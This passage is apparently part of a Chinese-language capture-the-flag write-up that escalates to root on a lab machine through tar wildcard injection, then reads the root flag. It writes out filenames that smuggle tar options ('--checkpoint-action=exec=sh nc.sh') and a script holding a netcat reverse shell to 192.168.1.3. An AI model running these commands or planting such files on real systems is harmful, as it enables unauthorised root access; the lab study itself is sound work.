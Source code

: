 可以看到我们对/var/www/html文件夹可读写



### 构造恶意文件

```
touch -- '--checkpoint=1'
echo 'nc -e /bin/bash 192.168.1.3 289'>nc.sh
touch -- '--checkpoint-action=exec=sh nc.sh'
```

![image-20250324191124223](assets/image-20250324191124223.png)

![image-20250324191317798](assets/image-20250324191317798.png)

![image-20250324191136861](assets/image-20250324191136861.png)



### 本地开启监听

![image-20250324191334196](assets/image-20250324191334196.png)



### 得到任务执行后

![image-20250324191329627](assets/image-20250324191329627.png)

成功提权



### 得到第二个flag

```
cd /root
ls
cat root.txt
```

![image-20250324191419302](assets/image-20250324191419302.png)